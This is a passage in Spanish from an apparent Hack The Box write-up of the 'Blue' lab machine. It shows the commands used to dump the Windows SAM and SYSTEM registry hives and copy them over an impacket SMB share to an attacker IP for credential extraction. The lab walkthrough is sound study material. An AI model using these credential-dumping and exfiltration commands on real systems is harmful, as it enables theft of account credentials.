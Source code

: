 El recurso sam y system normalmente están en uso por el sistema, el siguiente paso seria crear una copia de estos. Como poseemos máximos privilegios lo hacemos de la siguiente manera

```powershell
reg save HKLM\system system.backup
reg save HKLM\sam sam.backup
```

 

![sam y system.png](/assets/images/htb-writeup-blue/sam_y_system.png)

Ahora los vamos a trasladar a nuestro sistema para analizarlos, los copiamos en la carpeta content, los vamos a copiar utilizando impacket

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

iniciamos el recurso compartido en la carpeta content donde los copiaremos

Para pasar los archivos utilizamos el siguiente comando en la maquina victima

```powershell
copy sam.backup \\10.10.14.9\smbFolder\sam
copy system.backup \\10.10.14.9\smbFolder\system
```

En este caso lo copiaremos a nuestro equipo solo como sam y haremos lo mismo para system.
